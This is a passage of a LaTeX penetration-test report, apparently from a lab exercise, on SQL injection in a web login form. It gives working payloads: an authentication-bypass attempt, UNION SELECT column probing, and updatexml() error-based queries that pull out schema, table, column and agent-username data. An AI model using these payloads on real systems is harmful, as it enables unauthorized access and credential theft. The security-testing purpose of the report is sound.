    
\includegraphics[width=0.8\textwidth]{RA3.png}
    \caption{CVSS Score for Cross-Site Scripting (XSS) }
    \label{fig:sql_injection}
    \end{figure}
     \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{RA33.png}
    \caption{CVSS Score for Cross-Site Scripting (XSS) }
    \label{fig:sql_injection}
    \end{figure}
    \FloatBarrier
    \end{itemize}

\noindent \textbf{Recommendation}: Prioritize SQL Injection patching first, followed by XSS and file exposure. Disable \texttt{debug.php} and enforce input validation.
\subsection{SQL Injection (Critical)}

\subsubsection{Initial Detection and Error-Based Feedback}
The first sign of SQL injection appeared when a single quote (\texttt{'}) was entered into the log-in form, causing the application to throw a visible SQL error. This confirmed that the input was being directly inserted into an SQL query without proper escape or validation. The error message also helped reveal the back-end behavior and location of query processing (e.g., line 63 of \texttt{login.php} and path of \texttt{var/www/html}).

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{PT1.png}
\caption{SQL Injection Output with Single Quote(')}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

\subsubsection{Basic SQL Injection}
The next step involved testing the basic authentication bypass using:
\begin{verbatim}
' OR 1=1 #
\end{verbatim}
which roughly translate to \texttt{e.g SELECT * FROM Users WHERE email = '' OR 1=1} but it didn't work, but we can try other things such as $>$, $<$, and \texttt{LIKE} to generate an OR true value.

\subsubsection{Authentication Bypass via \texttt{UNION SELECT NULL, NULL\#}}
This technique involves incrementally adding columns until the number of columns in the injected query matches the original query structure\cite{mariadb-union} and bypassed the login mechanism by always evaluating the WHERE clause as true.

\begin{verbatim}
' UNION SELECT NULL #
' UNION SELECT NULL, NULL #
\end{verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{PT3.png}
\caption{Identifying Number of Columns for SQL Injection }
\label{fig:sql_injection}
\end{figure}

\FloatBarrier
It was confirmed that two columns were expected by the original SQL query, so we don't have to write any script we got it on second try. This allowed further injections to be executed successfully.

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{PT4.png}
\caption{Successful SQL Injection with Two Column}
\label{fig:sql_injection}
\end{figure}
\FloatBarrier

\subsubsection{Schema Extraction via \texttt{updatexml()} (error-based SQL Injection)}

 By deliberately passing invalid arguments to UPDATEXML(0, CONCAT('~', <sub-query>, '~'), 0)\cite{mariadb-updatexml}. The bad first argument forces MariaDB to raise an XPATH error that echoes the second argument, so the error message leaks the sub-query’s result, which can be exploited to extract schema information:
\begin{verbatim}
' OR updatexml(0, concat('~', 
    (SELECT table_schema FROM information_schema.tables 
     ORDER BY table_schema LIMIT 0,1)), '~') OR '# 
\end{verbatim}

This approach revealed that \texttt{information\_schema} was present. The injection was refined to exclude system schemas and discover user-defined ones.
\begin{verbatim}
'or updatexml(0,concat('~',(SELECT table_name FROM information_schema.tables
WHERE table_schema NOT IN ('mysql','information_schema','performance_schema','sys') 
group by table_name limit 0,1), '~'),0) or '#

\end{verbatim}


\subsubsection{Table and Column Enumeration}
The following payloads were used to enumerate table names and confirm the structure:
\begin{verbatim}
' OR updatexml(0, concat('~',
    (SELECT table_name FROM information_schema.tables 
     WHERE table_schema NOT IN ('mysql','information_schema','performance_schema',
     'sys') 
     GROUP BY table_name LIMIT 4,1)), '~') OR '# 
\end{verbatim}

This revealed the existence of \texttt{agents} and \texttt{reports} tables. 

\begin{verbatim}
' OR updatexml(0, concat('~',
    (SELECT GROUP_CONCAT(column_name) 
     FROM information_schema.columns 
     WHERE table_name like 'agents')), '~') OR '# 
\end{verbatim}

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{PT5.png}
\caption{Tables and Column Enumeration}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

The agents table were then enumerated using:

\begin{verbatim}
`' OR updatexml(0,concat('~',(SELECT username FROM agents LIMIT 0,1),'~'),0) OR '#`
\end{verbatim}

\subsubsection{Data Extraction via Automation Script}
A Node.js script was developed to automate the extraction of table names and agent usernames using error-based SQL injection. The script incrementally increased the offset in the LIMIT clause (e.g., LIMIT 0,1, LIMIT 1,1, etc.). The delimiter \verb|~~| was used to make it easier to extract important information using regular expressions. This allowed efficient enumeration of table names and agent usernames. 
\\ \\
The Script revealed following table names
\begin{itemize}
    \item \texttt{agents}
    \item \texttt{reports}
\end{itemize}

\subsubsection{Credentials Harvesting and Agent Enumeration}
The script successfully retrieved agent usernames:
\begin{itemize}
    \item \texttt{tizio.incognito}
    \item \texttt{jackOfspade}
    \item \texttt{agentX}
    \item \texttt{utente}
    \item \texttt{sysadmin}
\end{itemize}

\subsubsection{Getting Password}
since we have the column name from
\begin{verbatim}
' OR updatexml(0,concat('~',(SELECT column_name FROM information_schema.columns 
WHERE table_name LIKE 'agents' LIMIT 0,1)),0) OR '
\end{verbatim}

\begin{figure}[h!]
\centering
